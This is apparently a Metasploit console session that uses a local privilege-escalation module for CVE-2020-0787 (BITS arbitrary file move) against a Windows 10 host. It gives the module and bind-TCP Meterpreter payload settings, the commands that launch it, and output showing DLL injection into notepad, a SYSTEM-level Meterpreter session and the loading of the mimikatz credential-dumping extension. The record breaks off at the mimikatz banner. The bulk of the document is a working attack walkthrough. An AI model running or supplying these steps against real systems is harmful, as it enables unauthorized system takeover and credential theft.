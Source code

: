 Module options (exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   JOB_WAIT_TIME  40               yes       Time to wait for the BITS job to complete before starting the USO service to execute the uploaded payload, in seconds
   OVERWRITE_DLL  false            yes       Overwrite WindowsCoreDeviceInfo.dll if it exists (false by default).
   SESSION        4                yes       The session to run this module on.


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     9988             yes       The listen port
   RHOST     172.26.22.128    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set RHOST 172.26.17.231
RHOST => 172.26.17.231
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set LPORT 8822
LPORT => 8822
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set JOB_WAIT_TIME 30
JOB_WAIT_TIME => 30
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > exploit

[*] Step #1: Checking target environment...
[*] Step #2: Generating the malicious DLL...
[*] Payload DLL is 78336 bytes long
[*] Step #3: Loading the exploit DLL to run the main exploit...
[*] Launching notepad to host the exploit...
[+] Process 10136 launched.
[*] Injecting DLL into 10136...
[*] DLL injected. Executing injected DLL...
[*] Sleeping for 30 seconds to allow the exploit to run...
[*] Started bind TCP handler against 172.26.17.231:8822
[*] Sending stage (176195 bytes) to 172.26.17.231
[*] Meterpreter session 5 opened (0.0.0.0:0 -> 172.26.17.231:8822) at 2020-06-10 12:18:16 -0500

meterpreter > sysinfo
Computer        : DESKTOP-PL99PE8
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )